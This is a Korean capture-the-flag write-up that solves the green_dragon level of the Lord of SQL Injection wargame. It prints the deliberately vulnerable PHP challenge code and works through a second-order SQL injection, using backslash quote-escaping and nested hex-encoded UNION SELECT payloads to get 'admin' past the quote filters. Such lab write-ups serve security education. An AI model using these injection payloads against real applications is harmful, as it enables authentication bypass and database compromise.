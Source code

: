 ```yaml
---
title: "[Lord of SQL Injection] LoS - green_dragon 문제풀이"
date: 2018-08-25
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


다시  `los.rubiya.kr`의 서버로 돌아와서 다음 문제를 풀어보았다.
드디어 `dragon` 시리즈의 시작이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

소스코드가 좀 길어졌다.
쿼리가 2개가 있는데, 첫 번째 쿼리는 내가 입력한 `id`와 `pw`를 가지고 `prob_green_dragon` 테이블에서 값을 뽑아온다.
그런데 이 후, 해당 테이블에서 추출 한 `id`와 `pw`를 가지고 다시 필터링을 거친 후에, 결과로 나왔던 그 `id`와 `pw`를 가지고 한번 더 쿼리를 수행한다.
그래서 나온 결과값의 `id`의 값이 `admin`이라면 문제를 풀 수 있다.
필터링에 `'(싱글쿼터)`가 있기 때문에 먼저 이를 우회해야 한다.
이 전 문제에서 이와 유사한 문제가 있었기 때문에 아래와 같이 입력 해 필터링 우회를 시도 해 보았다.  

```plain
?id=\&pw= or id=0x61646d696e#
```

이를 입력하면 완성되는 쿼리는 아래와 같다.  

```mysql
select id,pw from prob_green_dragon where id='\' and pw=' or id=0x61646d696e#'
```

때문에 `id`가 `\'and pw`이거나 `id`가 `0x61646d696e`인 값을 데이터베이스에서 찾아 추출하게 된다.
그런데 아무리 해도 결과 값이 나오지 않았다.
처음엔 내가 문제를 잘못푼 줄 알았는데, 다시 생각해보니 `$query2`의 존재가 의심스러웠다.
만약에 내가 했던 방법으로 문제가 풀릴 거라면, `$query`에서 나온 결과값이 바로 데이터베이스에 저장되어 있던 `id`와 `pw`의 값이기 때문에 이에 대해 따로 필터링을 할 필요가 없을 것 같았다.
또한 그 `id`와 `pw`로 다시 한 번 `select`를 하는 것은 무의미해 보였다.

그러다보니 이 테이블이 비어있다고 생각하게 되었다.
테이블에 아무런 값이 없으니 아무리 조건을 넣어도 추출 할 값이 없었던 것이다.
그래서 두 쿼리를 거친 결과가 `select 'admin'`이 되면 문제를 풀 수 있을 것이라고 생각했다.
일단 `$query2`를 출력시키기 위해 `id`에는 `\`를, `pw`에는 `union select 1, 2%23`를 입력 해 보았다.

```plain
?id=\&pw=union select 1, 2%23
```

그 결과 아래와 같이 두 번째 쿼리가 출력되는 것을 확인할 수 있었다.  

```php
----------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
----------------------------------------------------------------------------------------------------------------

-----------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='1' and pw='2'
-----------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

예상대로 두 번째 쿼리에 1과 2가 들어갔다.
그럼 이제 `union select 1, 2` 자리에 적당한 값을 넣어서 두 번째 쿼리가 `select admin`을 하도록 만들면 될 것 같다.

그런데 `$result['id']`와 `$result['pw']`에 대해서도 같은 필터링이 걸려 있으므로 문자열은 사용할 수가 없고, 싱글쿼터를 우회해야 한다.
그래서 두 번째 쿼리의 `id` 값에는 `\`가 들어가야 한다는 것을 쉽게 알 수 있다.
이 때, `\`는 문자이기 때문에 `union select \, 2` 형태로 넣을 수 없기 때문에 `\` 또한 hex 값으로 바꾸어 넣어주어야 한다.
문제는 `$result['pw']` 자리에 들어갈 내용이다.
내가 만들고 싶은 두 번째 쿼리의 형태는 다음과 같다.  

```mysql
select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#
```

그러면 뒤의 `union select 0x61646d696e`가 되어, 최종적으로 `admin`을 추출할 수 있게 된다.
그런데 문제는 첫 번째 쿼리에서 뭐라고 입력해야 두 번째 쿼리에 내가 원하는 값을 넣을 수 있느냐는 것이었다.
서버에서 테스트를 해 보았는데, 아래와 같이 입력하니 결과값을 얻을 수 있었다.  

```bash
mysql> select id, pw from user where id='\' and pw=' union select 1, (select 2);
+----+----+
| id | pw |
+----+----+
| 1  | 2  |
+----+----+
1 row in set (0.01 sec)
```

이를 그대로 넣으면, 두 번째 쿼리의 `pw` 자리에 `2`가 들어간다.
그렇다면 `2`를 적절히 수정해서 `union select 0x61646d696e`를 만들면 된다.
그런데 앞에서 말했다시피 싱글쿼터와 더블쿼터가 필터링 되어 있기 때문에 `hex`로 변경 해서 값을 넣어주어야 한다.
`union select 0x61646d696e`를 하나하나 hex 값으로 바꾸면 `0x756e696f6e2073656c6563742030783631363436643639366523`이 된다.
이 값을 아래와 같이 쿼리스트링으로 넘겨주었다.  

```plain
?id=\&pw= union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)%23
```

역시 내 예상과 맞게 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw=' union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)#'
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#'
------------------------------------------------------------------------------------------------------------------------------

GREEN_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

---

```plain
GREEN_DRAGON Clear!
```